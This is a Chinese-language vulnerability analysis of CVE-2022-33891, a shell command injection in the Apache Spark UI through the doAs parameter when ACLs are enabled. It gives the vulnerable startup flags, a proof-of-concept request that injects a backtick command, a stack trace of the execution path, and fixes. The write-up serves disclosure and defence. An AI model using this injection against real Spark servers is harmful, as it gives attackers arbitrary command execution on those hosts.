 ## CVE-2022-33891 Apache Spark shell command injection

### 前言



漏洞公告：https://lists.apache.org/thread/p847l3kopoo5bjtmxrcwk21xp6tjxqlc

影响版本：Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1



---

### 漏洞分析

漏洞修复commit  https://github.com/apache/spark/pull/36315/files ，从commit中不能发现将username直接拼接到命令执行的参数集合中，没有做任何的处理，导致命令执行漏洞。

![image-20220719165638309](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191656487.png)



从公告的描述中能够发现是需要开启acl功能

> Severity: important
>
> Description:
>
> The Apache Spark UI offers the possibility to enable ACLs via the
> configuration option spark.acls.enable. With an authentication filter, this
> checks whether a user has access permissions to view or modify the
> application. If ACLs are enabled, a code path in HttpSecurityFilter can
> allow someone to perform impersonation by providing an arbitrary user name.
> A malicious user might then be able to reach a permission check function
> that will ultimately build a Unix shell command based on their input, and
> execute it. This will result in arbitrary shell command execution as the
> user Spark is currently running as. This affects Apache Spark versions
> 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1.
>
> This issue is being tracked as SPARK-38992
>

开启acl功能是需要在启动Spark时添加相关的acl参数（默认是不启用），具体配置可以参考官方文档：

https://spark.apache.org/docs/3.0.3/security.html



漏洞启动配置如下，最后`[--conf spark.user.groups.mapping=org.apache.spark.security.ShellBasedGroupsMappingProvider]`是可选项，因为不写默认是**ShellBasedGroupsMappingProvider**：

```sh
./spark-shell --conf spark.acls.enable=true --conf spark.ui.port=8090 --conf spark.ui.view.acls=true [--conf spark.user.groups.mapping=org.apache.spark.security.ShellBasedGroupsMappingProvider]
```



---

### 漏洞复现

启动Spark

![image-20220719170920361](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191709417.png)



访问

``` http
http://172.20.16.60:8090/?doAs=`open%20-na%20Calculator`
```

![image-20220719171537728](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191715767.png)



---

### 漏洞分析



报错堆栈中可以发现漏洞的执行路径

```java
org.apache.spark.SparkException: Process List(bash, -c, id -Gn 'open Calculator') exited with code 1
	at org.apache.spark.util.Utils$.executeAndGetOutput(Utils.scala:1270)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getUnixGroups(ShellBasedGroupsMappingProvider.scala:43)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups(ShellBasedGroupsMappingProvider.scala:34)
	at org.apache.spark.util.Utils$.getCurrentUserGroups(Utils.scala:2427)
	at org.apache.spark.SecurityManager.isUserInACL(SecurityManager.scala:381)
	at org.apache.spark.SecurityManager.checkUIViewPermissions(SecurityManager.scala:238)
	at org.apache.spark.ui.HttpSecurityFilter.doFilter(HttpSecurityFilter.scala:71)
	at org.sparkproject.jetty.servlet.FilterHolder.doFilter(FilterHolder.java:193)
	at org.sparkproject.jetty.servlet.ServletHandler$Chain.doFilter(ServletHandler.java:1601)
	at org.sparkproject.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:548)
	at org.sparkproject.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:233)
	at org.sparkproject.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1435)
	at org.sparkproject.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:188)
	at org.sparkproject.jetty.servlet.ServletHandler.doScope(ServletHandler.java:501)
	at org.sparkproject.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:186)
	at org.sparkproject.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1350)
	at org.sparkproject.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:141)
	at org.sparkproject.jetty.server.handler.gzip.GzipHandler.handle(GzipHandler.java:763)
	at org.sparkproject.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:234)
	at org.sparkproject.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)
	at org.sparkproject.jetty.server.Server.handle(Server.java:516)
	at org.sparkproject.jetty.server.HttpChannel.lambda$handle$1(HttpChannel.java:388)
	at org.sparkproject.jetty.server.HttpChannel.dispatch(HttpChannel.java:633)
	at org.sparkproject.jetty.server.HttpChannel.handle(HttpChannel.java:380)
	at org.sparkproject.jetty.server.HttpConnection.onFillable(HttpConnection.java:277)
	at org.sparkproject.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:311)
	at org.sparkproject.jetty.io.FillInterest.fillable(FillInterest.java:105)
	at org.sparkproject.jetty.io.ChannelEndPoint$1.run(ChannelEndPoint.java:104)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:336)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:313)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:171)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.run(EatWhatYouKill.java:129)
	at org.sparkproject.jetty.util.thread.ReservedThreadExecutor$ReservedThread.run(ReservedThreadExecutor.java:383)
	at org.sparkproject.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:882)
	at org.sparkproject.jetty.util.thread.QueuedThreadPool$Runner.run(QueuedThreadPool.java:1036)
	at java.base/java.lang.Thread.run(Thread.java:834)
```

可以直接忽视jetty层面的执行流程，直接看spark的执行过程。

``` 
org.apache.spark.SparkException: Process List(bash, -c, id -Gn 'open Calculator') exited with code 1
	at org.apache.spark.util.Utils$.executeAndGetOutput(Utils.scala:1270)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getUnixGroups(ShellBasedGroupsMappingProvider.scala:43)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups(ShellBasedGroupsMappingProvider.scala:34)
	at org.apache.spark.util.Utils$.getCurrentUserGroups(Utils.scala:2427)
	at org.apache.spark.SecurityManager.isUserInACL(SecurityManager.scala:381)
	at org.apache.spark.SecurityManager.checkUIViewPermissions(SecurityManager.scala:238)
	at org.apache.spark.ui.HttpSecurityFilter.doFilter(HttpSecurityFilter.scala:71)
```



在`org.apache.spark.ui.HttpSecurityFilter#doFilter`方法中，可以发现将参数**doAs**传入**org.apache.spark.SecurityManager.checkUIViewPermissions**方法中

![image-20220719172826631](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191728700.png)

在checkAdminPermissions方法传入到**isUserInACL**方法

![image-20220719172949337](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191729396.png)

在isUserInACL方法调用了**org.apache.spark.util.Utils$.getCurrentUserGroups**

![image-20220719173010936](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191730997.png)

在getCurrentUserGroups方法中将username传入到**org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups**方法

![image-20220719173124441](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191731473.png)

然后传入到**org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups**方法，最终执行传入参数的命令。

![image-20220719173318600](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191733672.png)



---

### 漏洞流程

![image-20220719174725821](https://raw.githubusercontent.com/SummerSec/Images/main/202207/202207191752599.png)







---

### 漏洞修复方案

1. 升级到最新版本

2. 如果开启了acl功能，关闭即可

3. 如果一定需要acl功能需要可以自定义`spark.user.groups.mapping`

    在`org.apache.spark.security.ShellBasedGroupsMappingProvider` 中添加命令执行过滤操作。



---



### 参考

* https://spark.apache.org/docs/3.0.3/security.html
* https://y4tacker.github.io/
* https://github.com/apache/spark/pull/36315/files
* https://lists.apache.org/thread/p847l3kopoo5bjtmxrcwk21xp6tjxqlc